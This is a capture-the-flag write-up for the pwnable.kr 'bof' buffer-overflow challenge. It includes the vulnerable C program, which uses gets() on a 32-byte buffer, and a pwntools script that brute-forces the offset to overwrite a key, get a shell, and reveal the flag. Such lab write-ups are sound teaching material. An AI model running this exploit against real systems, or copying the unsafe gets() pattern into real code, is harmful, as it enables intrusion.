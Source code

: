 # bof #

Probably the first thing that could be remotely described as real-world in the toddler's bottle challenges.

## Problem Description ##

```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

## Reconnaissance and Analysis ##

Connecting to the target doesn't tell us much. We can observe the "normal" and "overflow" behavior.

```
root@kali:collision# nc pwnable.kr 9000
hello
overflow me : 
Nah..
root@kali:collision# nc pwnable.kr 9000
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
*** stack smashing detected ***: /home/bof/bof terminated
overflow me : 
Nah..
root@kali:collision# 
```

The problem description gives us a copy of `bof.c`.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

The `overflowme` buffer can accept 32 characters. It looks like this is where we'll perform our overflow.

## Solution ##

Send 32 or more characters -- any characters -- followed by `0xcafebabe`. 

This is where we start hitting challenges that are more straightforwardly accomplished via `pwntools`. We don't know how far beyond the buffer our target memory address is going to be, so we're going to have to guess. A lot. See the `pwntools` implementation below for an illustrative example.  

## Concepts and Further Reading ##

## `pwntools` Implementation ##

Here is one implementation that yields an interactive shell.

```python
from pwn import *

# We don't know how far we need to perform the
# overflow. We just know it starts overflowing
# at 32 characters. We can brute force our way
# through this by looping our attack.

for i in range(32,132):
    
    print("Attempt #",i)

    # Craft our buffer overflow payload. #
    payload = 'a'*i+pack(0xcafebabe)

    # Connect to target. #
    r = remote(host='pwnable.kr',
            port=9000)

    # Send the payload to STDIN #
    r.sendline(payload)

    # Pull the output.
    output = r.recv(4096,timeout=1)

    # If the response is empty, then we presume
    # that the `bof` script dropped a shell for
    # us.
    if output=='':
        print(" !!! pwned !!! ")
        print("Brute force was successful on iteration",str(i))
        print("Here is your shell:")
        r.interactive()
        break
    else:
        # Otherwise, close the remote pipe and
        # try again.
        r.close()
```

Once in, you just run `cat flag` and you'll get the flag, `daddy, I just pwned a buFFer :)`. The code in the repo is the Fully Automated(tm) version.